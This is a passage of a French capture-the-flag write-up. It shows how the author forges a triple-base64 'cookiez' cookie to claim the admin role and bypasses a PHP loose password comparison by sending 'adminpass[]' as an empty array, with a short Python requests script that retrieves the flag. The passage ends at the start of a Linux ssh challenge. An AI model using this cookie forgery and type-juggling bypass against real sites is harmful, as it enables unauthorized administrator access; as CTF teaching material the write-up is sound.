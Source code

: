 ![](https://i.imgur.com/0x00llv.png)

Deux cookies sont envoyés par le serveur
> **cookiez** et **adminpass**

Après trois tentatives de décodage de la valeur de cookiez avec avec base 64 on obtient une valeur json.
![](https://i.imgur.com/wPoWp2X.png)
L'idée est de tenter de devenir administrateur en changeant guest par admin et à encoder le tout trois fois de suite.

En soumettant la requête avec la nouvelle valeur du cookie nommé cookiez un nouveau message apparait
> Vous vous êtes trompé dans le mot de passe administrateur.

Apres avoir tenté des mots de passe aléatoires au niveau du adminpass sans issue,je me suis rappelé qu'il existait une faiblesse inhérente aux comparaisons en php j'ai donc eu l'idée d'envoyer adminpass comme un tableau vide au serveur ce qui fera NULL == 0 qui est vrai
> **adminpass[] =**

```python=3.8
from requests import *
from base64 import *
from bs4 import BeautifulSoup

cook=b'{"id":"2","type":"admin"}'
for i in range(3):
	cook=b64encode(cook)
cook=cook.decode()

search=get("http://chall.emes.bj:12008/",cookies={"cookiez" : cook , "adminpass[]" : ""}).text
soup = BeautifulSoup(search, 'lxml').text
print(soup)

```

Bingoooo! On a notre flag!

![](https://i.imgur.com/Impd8Gx.png)

    Flag: **J1NF{L3S_C00kiessszz_2_IFRI}**

Et oui , je suis un amoureux de python :laughing:

## Linux

#### I - diff32

![](https://i.imgur.com/N9Uog5f.png)

Une fois que je j'accède au shell via ssh je consulte les fichiers présents via **ls**

![](https://i.imgur.com/HBtD4Z0.png)
